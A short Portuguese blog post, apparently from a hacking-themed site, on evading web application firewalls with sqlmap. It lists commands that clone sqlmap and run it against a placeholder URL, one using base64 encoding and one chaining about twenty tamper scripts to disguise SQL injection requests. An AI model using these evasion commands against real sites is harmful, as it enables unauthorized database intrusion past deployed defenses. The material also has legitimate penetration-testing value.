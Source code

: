 ```yaml
---
title: Burlar WAF com SQLMAP
date: 2023-10-16 14:30:00 +0800
categories: [h4ckthreat, Hacking]
tags: [Sqlmap, Hacking] # TAG names should always be lowercase
image: /assets/img/posts/sqlmap.jpg
---
```


<p align="justify"> Com o avanço dos Firewalls de Aplicação da Web (Web Application Firewalls - WAFs), a tarefa de utilizar a ferramenta sqlmap tornou-se progressivamente mais desafiadora, uma vez que as requisições são rotineiramente identificadas como suspeitas e bloqueadas automaticamente. Diante dessa situação, os desenvolvedores da ferramenta têm se empenhado em criar pequenos scripts para contornar esses WAFs e permitir a execução de consultas SQL injection.</p>

<p align="justify">Vamos seguir alguns passos para utilizar o sqlmap de forma mais eficaz:</p>

## 1. Baixando o sqlmap:

```
git clone https://github.com/sqlmapproject/sqlmap
```

## 2. Execute a ferramenta para avaliar a segurança do alvo específico:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=base64encode
```

<p align="justify"> Dessa forma, o script converterá a consulta em uma codificação base64, ajudando a superar alguns tipos de Firewalls.</p>

## 3. Quando se deparar com um Firewall mais sofisticado, será necessário empregar uma combinação de métodos de evasão:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

<p align="justify"> Essa combinação de técnicas de evasão será empregada simultaneamente para ocultar as requisições e passar pelos controles do Firewall, permitindo que o "sqlmap" continue a funcionar de maneira eficaz.</p> 
